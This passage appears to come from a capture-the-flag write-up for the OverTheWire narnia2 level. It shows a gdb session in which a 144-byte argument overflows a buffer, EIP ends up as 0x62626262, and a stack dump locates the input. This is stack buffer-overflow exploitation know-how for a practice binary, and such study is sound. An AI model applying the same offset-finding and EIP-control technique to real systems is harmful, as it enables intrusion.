 We can control `EIP` with whatever we put at position 140 of our payload. But
what do we put there? Well for that we need to figure out where the rest of our
data is going. Using a known payload let's see where our input ends up:

{{< highlight console >}}
(gdb) run $(python -c "print 'a' * 140 + 'b' * 4")
Starting program: /games/narnia/narnia2 $(python -c "print 'a' * 140 + 'b' * 4")

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb) x/200x $esp
(gdb) x/200x $esp
0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea
0xffffd660:	0x00000002	0xffffd6e4	0xffffd684	0x08049768
0xffffd670:	0x0804821c	0xf7fca000	0x00000000	0x00000000
0xffffd680:	0x00000000	0xed18585e	0xd520bc4e	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000002	0x08048360
0xffffd6a0:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
0xffffd6b0:	0x00000002	0x08048360	0x00000000	0x08048381
0xffffd6c0:	0x0804845d	0x00000002	0xffffd6e4	0x080484d0
0xffffd6d0:	0x08048540	0xf7feb180	0xffffd6dc	0x0000001c
0xffffd6e0:	0x00000002	0xffffd812	0xffffd828	0x00000000
0xffffd6f0:	0xffffd8b9	0xffffd8cd	0xffffd8dd	0xffffd8f0
0xffffd700:	0xffffd913	0xffffd927	0xffffd930	0xffffd93d
0xffffd710:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
0xffffd720:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
0xffffd730:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
0xffffd740:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
0xffffd750:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
0xffffd760:	0x00000010	0x1f898b75	0x00000006	0x00001000
0xffffd770:	0x00000011	0x00000064	0x00000003	0x08048034
0xffffd780:	0x00000004	0x00000020	0x00000005	0x00000008
0xffffd790:	0x00000007	0xf7fdc000	0x00000008	0x00000000
0xffffd7a0:	0x00000009	0x08048360	0x0000000b	0x000036b2
0xffffd7b0:	0x0000000c	0x000036b2	0x0000000d	0x000036b2
0xffffd7c0:	0x0000000e	0x000036b2	0x00000017	0x00000000
0xffffd7d0:	0x00000019	0xffffd7fb	0x0000001f	0xffffdfe2
0xffffd7e0:	0x0000000f	0xffffd80b	0x00000000	0x00000000
0xffffd7f0:	0x00000000	0x00000000	0xe8000000	0x7c03ba19
0xffffd800:	0x2bd0895a	0x3866226d	0x69ad5957	0x00363836
0xffffd810:	0x672f0000	0x73656d61	0x72616e2f	0x2f61696e
0xffffd820:	0x6e72616e	0x00326169	0x61616161	0x61616161
0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd8b0:	0x61616161	0x62626262	0x47445800	0x5345535f
0xffffd8c0:	0x4e4f4953	0x3d44495f	0x30333035	0x45485300
0xffffd8d0:	0x2f3d4c4c	0x2f6e6962	0x68736162	0x52455400
0xffffd8e0:	0x78723d4d	0x322d7476	0x6f633635	0x00726f6c
0xffffd8f0:	0x5f485353	0x45494c43	0x323d544e	0x322e3231
0xffffd900:	0x37352e33	0x3136312e	0x35333320	0x34203932
0xffffd910:	0x53003334	0x545f4853	0x2f3d5954	0x2f766564
0xffffd920:	0x2f737470	0x4c003033	0x4c415f43	0x00433d4c
0xffffd930:	0x52455355	0x72616e3d	0x3261696e	0x5f534c00
0xffffd940:	0x4f4c4f43	0x723d5352	0x3a303d73	0x303d6964
0xffffd950:	0x34333b31	0x3d6e6c3a	0x333b3130	0x686d3a36
0xffffd960:	0x3a30303d	0x343d6970	0x33333b30	0x3d6f733a
{{< / highlight >}}
